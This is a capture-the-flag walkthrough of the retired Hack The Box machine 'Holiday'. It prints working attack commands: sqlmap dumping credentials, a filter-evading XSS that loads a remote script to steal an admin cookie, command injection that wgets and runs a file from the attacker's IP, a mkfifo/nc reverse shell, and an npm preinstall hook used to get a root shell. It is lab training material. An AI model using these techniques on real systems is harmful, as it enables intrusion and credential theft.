





# Holiday

This is the write-up for the box Holiday that got retired at the 18th November 2017.
My IP address was 10.10.14.22 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.25    holiday.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/holiday.nmap 10.10.10.25
```

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c3:aa:3d:bd:0e:01:46:c9:6b:46:73:f3:d1:ba:ce:f2 (RSA)
|   256 b5:67:f5:eb:8d:11:e9:0f:dd:f4:52:25:9f:b1:2f:23 (ECDSA)
|_  256 79:e9:78:96:c5:a8:f4:02:83:90:58:3f:e5:8d:fa:98 (ED25519)
8000/tcp open  http    Node.js Express framework
|_http-title: Error
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 8000)

On the web page there is only an image of a hexagon and nothing interesting in the source code.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://10.10.10.25:8000 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -a Linux
```

It only finds something when the web page gets an **User-Agent** with the word _"Linux"_ in the HTTP request. The User-Agent in Gobuster can be changed withe the `-a` parameter.

This finds the path _/admin_ which forwards to _/login_ where it is possible to enter an username and a password.
Lets save the response from the box as _login.req_ and look for **SQL Injection** vulnerabilities with **SQLmap**:
```markdown
sqlmap -r login.req --risk 3 --level 5 --threads 10
```

The back-end Database Management System is **SQLite** and the _username_ parameter is vulnerable to a **Boolean-based Blind SQL Injection**.
Now it is possible to dump the tables from the database:
```markdown
sqlmap -r login.req --risk 3 --level 5 --threads 10 --tables
```

There are 5 tables on the database:
```markdown
[5 tables]
+-----------------+
| bookings        |
| notes           |
| sessions        |
| sqlite_sequence |
| users           |
+-----------------+
```

The table _users_ seems interesting:
```markdown
sqlmap -r login.req --risk 3 --level 5 --threads 10 -T users --dump
```
```markdown
[1 entry]
+----+--------+----------------------------------+----------+
| id | active | password                         | username |
+----+--------+----------------------------------+----------+
| 1  | 1      | fdc8cd4cff2c19e0d1022e78481ddf36 | RickA    |
+----+--------+----------------------------------+----------+
```

It found the username _RickA_ and a hashed password in this table. The hash is most likely a MD5-hash as it has 32 characters. It can be found on **hashes.org** and it is:
> nevergonnagiveyouup

 With these credentials we can log in on the web page.

### Analyzing the web page

As we logged in, the web page forwarded us to _/agent_ where we see bookings in a table with names and UUIDs:



There are 100 different names and UUIDs.
When clicking the UUID, we get information about the customer and can add a note to it:





The information at the bottom of the notes page hints, that this could be an attack to make the automated approval click or execute something malicious.
Lets try some JavaScript to see if this page is vulnerable to **Cross-Site Scripting**.

Adding a simple `<script>alert(1)</script>` as a note and after it gets approved, we see that it gets filtered like this:
```markdown
&lt;script&gt;alert(1);&lt;/script&gt;
```

This kind of filtering can get evaded with different tricks which can be found in the [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).

After trying out some methods or using a XSS Framework, the following JavaScript code will work without getting filtered because the web page assumes that it is an URL and thus doesn't need to be filtered:
```markdown
<script>javascript.alert(1)</script>">
```

The XSS will access a web server on my local machine to test if we get code execution.
```markdown
<script>eval(String.fromCharCode(document.write('<script src="http://10.10.14.22/holiday.js"></script>');))</script>">
```

Now the JavaScript code needs to get encoded in ordinal or numeric values for this to work.
For this task I write a Python script named **js_encode.py** that can be found in this repository.
```markdown
python js_encode.py
```

This will convert the JavaScript code into ordinal values that can be pasted into the notes field and send to the server:
```markdown
<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,50,50,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>">
```

My local machine listens on port 80 with `nc -lvnp 80` and we send the encoded JavaScript as a note and after a while it will make a connection on my local web server which means we got a successful XSS exploit.

#### Creating the XSS payload

Now we know that this XSS method works, we will create a payload that will get the cookie from the web server.
The payload is called **holiday_payload.js** and can be found in this repository.

Making this available with `python -m SimpleHTTPServer` on the local web server and starting a connection on port 8000 with `nc -lvnp 8000 > tmp` and then adding the JavaScript from before in the notes.
This will download the **holiday_payload.js** file, which will start a connection from the box' localhost on our port 8000 and write the response into the file _tmp_. The contents of this file are URL-encoded, so it has to be decoded first with any URL-decoder tool or with Python:
```python
import urllib

print urllib.unquote("""cookie=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en""")
```

It has a lot of output but the most interesting part is at the bottom:
```html
<form action="/admin/approve" method="POST">
  <input type="hidden" name="cookie" value="connect.sid&#x3D;s%3Ae84d7b00-29b6-11ea-ac69-430b6dad86bc.qNvlTwak%2F94Gl08D%2FHAIl2VHQJR7Ou2X7BzovmxNt8M">
  <input type="hidden" name="id" value="8">
  <button class="button" type="submit">Approve</button>
</form>
```

- There is a hidden function: _/admin/approve_
- We got a cookie: _connect.sid&#x3D;s%3Ae84d7b00-29b6-11ea-ac69-430b6dad86bc.qNvlTwak%2F94Gl08D%2FHAIl2VHQJR7Ou2X7BzovmxNt8M_.

When putting this cookie into the browser, it unlocks a hidden feature in the Booking Management tool:



### Exploiting the Admin page

After adding another note, it shows a button to _Approve_ it and those awaiting approvals can be found in the _/admin_ path.



This means we have some export function on the server. Lets send this to **Burpsuite** to see the header and exploit it:
```markdown
GET /admin/export?table=notes HTTP/1.1
```

Trying simple code execution methods:
```markdown
GET /admin/export?table=notes;whoami HTTP/1.1
```

The web server tells, that _only characters in the range of [a-z0-9&\s\/] are allowed_ so the semicolon is forbidden. If we use an _URL-encoded ampersand (%26)_, then the filter gets bypassed:
```markdown
GET /admin/export?table=notes%26whoami HTTP/1.1
```

This displays the name of the user thus we got code execution to start a reverse shell.

#### Starting a reverse shell

As most commands to start a reverse shell have characters that are filtered on this server, a way to encode those characters is needed. An IP address for example has dots which are not allowed.

IP addresses can be decoded into hexadecimal and are still valid.
The hex string for my IP address **10.10.14.22** is **0xA0A0E16**. To test if this works, we can just ping this and get a response:
```markdown
ping 0xA0A0E16
```

So instead of starting a reverse shell, we tell the server to download a file with the reverse shell code _shell_ from our box.
Reverse shell in file _shell_:
```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 9001 >/tmp/f
```

Download the file:
```markdown
GET /admin/export?table=notes%26wget+0xa0a0e16/shell HTTP/1.1
```

Execute the file:
```markdown
GET /admin/export?table=notes%26bash+shell HTTP/1.1
```

After executing the reverse shell, the listener on my IP and port 9001 starts a reverse shell on the box as the user _algernon_.

## Privilege Escalation

Looking at the sudo privileges of _algernon_, it shows that he can execute **npm** with root privileges:
```markdown
sudo -l

# Output
User algernon may run the following commands on holiday:
    (ALL) NOPASSWD: /usr/bin/npm i *
```

This command is the **Node Package Manager** which is needed to install packages for **Node.js** and with the `i *` parameter the user can _install any package_. It is possible to execute commands from the system with the _preinstall_ parameter.

Create a directory for the following files:
```markdown
mkdir privesc
```

Create _index.js_:
```javascript
module.exports = "dangerous npm install";
```

Create _package.json_:
```json
{
  "name": "rimrafall",
  "version": "1.0.0",
  "description": "Executes a reverse shell",
  "main": "index.js",
  "scripts": {
    "preinstall": "bash /tmp/shell"
  },
  "keywords": [
    "rimraf",
    "rmrf"
  ],
  "author": "João Jerónimo",
  "license": "ISC"
}
```

The file on _/tmp/shell_ is the same reverse shell as before but connects to port 9002. Now we can install the package to execute the reverse shell:
```markdown
sudo npm i privesc/ --unsafe
```

The listener on my IP and port 9002 starts a reverse shell as root!
